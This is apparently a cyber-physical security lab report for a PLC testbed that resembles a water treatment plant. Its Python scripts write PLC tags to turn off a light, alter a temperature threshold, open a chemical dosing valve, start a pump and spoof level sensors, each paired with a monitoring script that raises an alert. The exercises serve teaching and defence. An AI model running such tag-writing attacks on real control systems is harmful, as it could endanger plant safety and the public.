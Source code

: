 ===========
CPS Control
===========

.. contents::

.. sectnum::

Exercise 01
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 1: Attack

   The button DO_10 is supposed to stay lit at all times.
   Perform an attack to switch off the light of the button DO_10.
   """
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'DO_10'
   VALUE = 0
   TAG_TYPE = 'BOOL'

   def write_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           value=VALUE,
           tag_type=TAG_TYPE
           ):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       write_plc()

Defence
~~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 1: Defence

   If the button DO_10 is switched off, display an alert to the administrator.
   """
   from time import sleep
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'DO_10'
   INTENDED_VALUE = 1

   def monitor_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           intended_value=INTENDED_VALUE
           ):
       while True:
           tag_value = read_plc(plc_ip, tag_name)
           if tag_value != intended_value:
               print("*** ALERT ***")
               print(plc_ip + ": " + tag_name)
               print(
                   "Returning " + str(tag_value)
                   + " instead of " + str(intended_value)
                   )
           sleep(5)

   def read_plc(plc_ip, tag_name):
       plc = ClxDriver()
       if plc.open(plc_ip):
           tag_value = plc.read_tag(tag_name)[0]
           plc.close()
           return tag_value
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       monitor_plc()

.. raw:: pdf

   PageBreak

Results
-------

.. figure:: images/ex_01-before.jpg
  :width: 100%
  :alt: Exercise 1 before attack

  DO_10 light on before attack

.. figure:: images/ex_01-after.jpg
  :width: 100%
  :alt: Exercise 1 after attack

  DO_10 light off after attack

.. figure:: images/ex_01-alarm.jpg
  :width: 100%
  :alt: Exercise 1 defence

  Alert!

Exercise 02
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 2: Attack

   The button DO_10 is supposed to light up if the temperature rises above the
   threshold temperature of 30 degrees Celsius. Perform an attack to alter the
   threshold temperature to a different value (e.g. 40 degrees Celsius)
   """
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'ThresTemp'
   VALUE = 40.0
   TAG_TYPE = 'REAL'

   def write_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           value=VALUE,
           tag_type=TAG_TYPE
           ):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       write_plc()

Defence
~~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 2: Defence

   If the threshold temperature is suspiciously different, display an alert to
   the administrator.
   """
   from time import sleep
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IP = '192.168.1.151'
   TAG_NAME = 'ThresTemp'
   INTENDED_VALUE = 30.0

   def monitor_plc(
           plc_ip=PLC_IP,
           tag_name=TAG_NAME,
           intended_value=INTENDED_VALUE
           ):
       while True:
           tag_value = read_plc(plc_ip, tag_name)
           if tag_value != intended_value:
               print("*** ALERT ***")
               print(plc_ip + ": " + tag_name)
               print(
                   "Returning " + str(tag_value)
                   + " instead of " + str(intended_value)
                   )
           sleep(5)

   def read_plc(plc_ip, tag_name):
       plc = ClxDriver()
       if plc.open(plc_ip):
           tag_value = plc.read_tag(tag_name)[0]
           plc.close()
           return tag_value
       else:
           print("Unable to open: ", plc_ip)

   if __name__ == '__main__':
       monitor_plc()

.. raw:: pdf

   PageBreak

Results
-------

.. figure:: images/ex_02-before.jpg
  :width: 100%
  :alt: Exercise 2 before attack

  Threshold temperature at 30.0°C before attack

.. figure:: images/ex_02-light-30.jpg
  :width: 100%
  :alt: DO_10 lights up above 30.0°C before attack
  
  DO_10 lights up above 30.0°C before attack

.. figure:: images/ex_02-after.jpg
  :width: 100%
  :alt: Exercise 2 after attack

  DO_10 does not light up at 30.0°C after attack

.. figure:: images/ex_02-alert.jpg
  :width: 100%
  :alt: Exercise 2 defence

  Alert!

Exercise 03
===========

Source
------

Attack
~~~~~~

::

   #!/usr/bin/env python2
   """Exercise 3: Attack

   Use pycomm code to launch an attack on
       MV201
       P301
       LIT301
       LIT401

   Check the response on the invariant-based monitor.
   """
   import os
   from sys import exit
   from pycomm.ab_comm.clx import Driver as ClxDriver

   PLC_IPS = {
       'plc1': '192.168.1.10',
       'plc2': '192.168.1.20',
       'plc3': '192.168.1.30',
       'plc4': '192.168.1.40',
   }

   def LIT101():
       print("Attacking LIT101...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc1'], 'HMI_LIT101.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc1'], 'HMI_LIT101.Sim_PV', 200, 'REAL')

   def MV201():
       print("Attacking MV201...")
       print("Switching to manual override...")
       write_plc(PLC_IPS['plc2'], 'HMI_MV201.Auto', False, 'BOOL')
       print("Opening valve...")
       # 1 - close; 2 - open
       write_plc(PLC_IPS['plc2'], 'HMI_MV201.Cmd', 2, 'INT')

   def P301():
       print("Attacking P301...")
       print("Switching to manual override...")
       write_plc(PLC_IPS['plc3'], 'HMI_P301.Auto', False, 'BOOL')
       print("Engaging pump...")
       # 1 - stop; 2 - start
       write_plc(PLC_IPS['plc3'], 'HMI_P301.Cmd', 2, 'INT')

   def LIT301():
       print("Attacking LIT301...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc3'], 'HMI_LIT301.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc3'], 'HMI_LIT301.Sim_PV', 200, 'REAL')

   def LIT401():
       print("Attacking LIT401...")
       print("Overriding sensor input...")
       write_plc(PLC_IPS['plc4'], 'HMI_LIT401.Sim', True, 'BOOL')
       print("Changing sensor value...")
       write_plc(PLC_IPS['plc4'], 'HMI_LIT401.Sim_PV', 200, 'REAL')

   def Quit():
       print("Quitting")
       exit()

   def invalid_option():
       print("Invalid option")

   def write_plc(plc_ip, tag_name, value, tag_type):
       plc = ClxDriver()
       if plc.open(plc_ip):
           if plc.write_tag(tag_name, value, tag_type):
               print("Success")
               print("Target: " + plc_ip)
               print("Tag Name: " + tag_name)
               print("Value: " + str(value))
               print("Tag Type: " + tag_type)
           else:
               print("Failed to write to " + plc_ip)
           plc.close()
       else:
           print("Unable to open: ", plc_ip)

   def menu():
       TARGETS = {
           '1': LIT101,
           '2': MV201,
           '3': P301,
           '4': LIT301,
           '5': LIT401,
           'q': Quit,
           }
       while True:
           os.system('cls' if os.name == 'nt' else 'clear')
           print("PLC Attacker")
           print("============")
           for key, value in sorted(TARGETS.items()):
               print("{}: {}".format(key.upper(), value.__name__))
           target = raw_input("\nSelect an option: ")
           func = TARGETS.get(target.lower(), invalid_option)
           func()
           raw_input("\nPress enter to continue")

   if __name__ == '__main__':
       menu()

.. raw:: pdf

   PageBreak

Results
-------

MV201
~~~~~

.. figure:: images/ex_03-mv201-before.jpg
  :width: 100%
  :alt: MV201 before attack

  MV-201 chemical dosing valve closed before attack

.. figure:: images/ex_03-mv201-after.jpg
  :width: 100%
  :alt: MV201 after attack

  MV-201 chemical dosing valve open after attack

.. figure:: images/ex_03-mv201-alert.jpg
  :width: 100%
  :alt: MV201 invariant violation alert 

  MV-201 invariant violation alert

.. raw:: pdf

   PageBreak

P301
~~~~

.. figure:: images/ex_03-p301-before.jpg
  :width: 100%
  :alt: P301 before attack

  P-301 UF feed pump 1 stopped before attack

.. figure:: images/ex_03-p301-after.jpg
  :width: 100%
  :alt: P301 after attack

  P-301 UF feed pump 1 running after attack

.. figure:: images/ex_03-p301-alert.jpg
  :width: 100%
  :alt: P301 invariant violation alert 

  P-301 invariant violation alert

.. raw:: pdf

   PageBreak

LIT301
~~~~~~

.. figure:: images/ex_03-lit301-before.jpg
  :width: 100%
  :alt: LIT301 before attack

  LIT-301 UF feed water level transmitter reading 1013mm before attack

.. figure:: images/ex_03-lit301-after.jpg
  :width: 100%
  :alt: LIT301 after attack

  LIT-301 UF feed water level transmitter reading 200mm after attack

.. figure:: images/ex_03-lit301-alert.jpg
  :width: 100%
  :alt: LIT301 invariant violation alert 

  LIT-301 invariant violation alert

.. raw:: pdf

   PageBreak

LIT401
~~~~~~

.. figure:: images/ex_03-lit401-before.jpg
  :width: 100%
  :alt: LIT401 before attack

  LIT-401 RO feed water level transmitter reading 1020mm before attack

.. figure:: images/ex_03-lit401-after.jpg
  :width: 100%
  :alt: LIT301 after attack

  LIT-401 RO feed water level transmitter reading 200mm after attack

.. figure:: images/ex_03-lit401-alarm.jpg
  :width: 100%
  :alt: LIT401 invariant violation alert 

  LIT-401 invariant violation alert
